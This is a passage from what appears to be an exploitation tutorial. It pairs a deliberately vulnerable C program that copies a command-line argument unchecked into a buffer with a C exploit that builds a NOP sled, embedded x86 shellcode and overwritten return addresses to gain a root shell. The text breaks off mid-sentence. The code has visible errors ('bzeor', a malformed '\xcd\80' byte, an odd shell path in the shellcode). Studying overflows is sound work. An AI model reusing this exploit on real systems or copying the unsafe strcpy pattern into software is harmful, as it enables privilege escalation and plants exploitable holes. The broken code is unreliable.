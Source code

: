 ```c
/* 
 * This program will be sacrificed for project
 * programe name: victim
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <errno.h>

int main(int argc, char* argv[]) {
  char* buffer;
  int fd;
  
  if(argc != 2)
  {
    printf("Usage: %s <message>\n", argv[0]);
    exit(0);
  }
  
  fd = open("/etc/notes", O_CREAT|O_RDWR|O_APPEND, S_IRUSR|S_IWUSR);
  if(fd == -1)
    perror("in main open()");
    
  strcpy(buffer, argv[1]);  // vulnerable point!

  write(fd, buffer, sizeof(buffer));
  printf("%s\n", buffer);
  
  return 0;
}
```
Here, the owner of /etc/notes is root. So this program should be executed with root privilege.

```c
/*
 * exploit program
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] =
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x74\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\80";

int main(int argc, char* argv[]) {
  char* command, *buffer;
  unsigned long i, ret, offset = 0;
  
  if(argc > 1)
    offset = (unsigned long)atoi(argv[1]);
    
  command = (char*)malloc(300);
  bzeor(command, 300);
  
  strcpy(command, "./victim \'");
  buffer = command + strlen(command);
  
  ret = (unsigned long)(&i - offset);
  
  for(i = 0; i < 268; i += 8)
    *((unsigned long*)(buffer + i)) = ret;
  
  memset(buffer, 0x90, 60);
  memcpy(buffer + 60, shellcode, sizeof(shellcode) - 1);
  strcat(command, "\'");
  
  system(command);
  free(command);
}
```

First step of this exploit is make string which contains    
>./victim 'nopsled + shellcode + address of somewhere of nopsled'   
and store it in command. But 
